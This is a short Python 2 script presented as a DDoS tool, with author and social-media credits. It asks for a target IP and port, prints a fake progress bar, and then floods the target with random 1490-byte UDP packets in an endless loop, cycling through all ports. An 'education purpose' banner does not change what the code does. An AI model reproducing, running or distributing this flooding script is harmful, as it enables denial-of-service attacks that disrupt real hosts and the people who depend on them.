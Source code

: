 import sys
import random
from datetime import datetime
import time
import socket
import os

now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year


sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)

os.system("apt install figlet")
os.system("clear")
os.system("figlet DDOS")
os.system("echo $'\e[1;33m' PLEASE USE THIS SCRIPT FOR EDUCATION PURPOSE'\e[0m'")

print
print "Author   : abbakarhacker"
print "You Tube : https://www.youtube.com/c/hausahackers"
print "github   : https://github.com/abbakarhacker"
print "Facebook : https://www.facebook.com/abdullahiabubakar"
print "Twitter  : https://www.twitter.com/mrcyberhater"
print "website  :https://hausahackers.org"
print


ip = raw_input("IP Target : ")
port = input("Port      : ")


os.system("clear")
os.system("figlet Attack Starting")
print "[                    ] 0% "
time.sleep(3)
print "[=====               ] 25%"
time.sleep(3)
print "[==========          ] 50%"
time.sleep(3)
print "[===============     ] 75%"
time.sleep(3)
print "[====================] 100%"
time.sleep(3)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1

